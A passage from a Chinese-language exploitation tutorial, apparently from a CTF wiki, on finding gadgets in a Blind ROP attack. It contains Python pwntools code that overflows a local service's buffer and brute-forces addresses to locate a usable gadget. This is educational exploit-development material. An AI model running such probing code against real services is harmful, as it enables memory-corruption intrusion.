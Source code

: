 #### 识别brop gadgets

下面，我们根据上面介绍的原理来得到对应的brop gadgets地址。构造如下，get_brop_gadget是为了得到可能的brop gadget，后面的check_brop_gadget是为了检查。

```python
def get_brop_gadget(length, stop_gadget, addr):
    try:
        sh = remote('127.0.0.1', 9999)
        sh.recvuntil('password?\n')
        payload = 'a' * length + p64(addr) + p64(0) * 6 + p64(
            stop_gadget) + p64(0) * 10
        sh.sendline(payload)
        content = sh.recv()
        sh.close()
        print content
        # stop gadget returns memory
        if not content.startswith('WelCome'):
            return False
        return True
    except Exception:
        sh.close()
        return False


def check_brop_gadget(length, addr):
    try:
        sh = remote('127.0.0.1', 9999)
        sh.recvuntil('password?\n')
        payload = 'a' * length + p64(addr) + 'a' * 8 * 10
        sh.sendline(payload)
        content = sh.recv()
        sh.close()
        return False
    except Exception:
        sh.close()
        return True


##length = getbufferflow_length()
length = 72
##get_stop_addr(length)
stop_gadget = 0x4006b6
addr = 0x400740
while 1:
    print hex(addr)
    if get_brop_gadget(length, stop_gadget, addr):
        print 'possible brop gadget: 0x%x' % addr
        if check_brop_gadget(length, addr):
            print 'success brop gadget: 0x%x' % addr
            break
    addr += 1
```
